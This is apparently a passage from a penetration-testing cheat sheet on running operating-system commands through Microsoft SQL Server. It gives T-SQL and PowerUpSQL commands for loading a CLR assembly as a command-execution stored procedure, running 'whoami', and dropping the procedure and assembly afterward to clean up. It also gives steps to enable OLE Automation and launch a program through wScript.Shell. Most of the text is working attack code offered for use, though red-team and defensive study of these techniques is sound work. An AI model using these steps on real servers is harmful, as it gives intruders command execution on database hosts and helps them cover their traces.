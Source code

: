 Import the assembly from string:
```
CREATE ASSEMBLY [NMfsa] AUTHORIZATION [dbo] FROM 0x4D5A90......
```

Link the assembly to a stored procedure
```
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
GO
```

Execution:
```
cmd_exec 'whoami'
```

```
Invoke-SQLOSCmdCLR -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
```

Cleanup:
```
DROP PROCEDURE cmd_exec
DROP ASSEMBLY my_assembly
```

List all CLR assemblies:
```
Get-SQLStoredProcedureCLR -Instance instance -Verbose
```

## OLE Automation Procedure
- Disabled by default
- `sysadmin` privileges are required by-default.
- Execution takes place with privileges of the service account
- Execute privileges on sp_OACreate and sp_OAMethod can also be used for execution.

> https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option

Enabling:
```
sp_configure 'show advanced options', 1;
GO
RECONFIGURE;
GO
sp_configure 'Ole Automation Procedures', 1;
GO
RECONFIGURE;
GO
```

Execute:
```
DECLARE @output INT
DECLARE @ProgramToRun VARCHAR(255)
SET @ProgramToRun = 'Run("calc.exe")'
EXEC sp_oacreate 'wScript.Shell', @output out
EXEC sp_oamethod @output, @ProgramToRun
EXEC sp_oadestroy @output
```
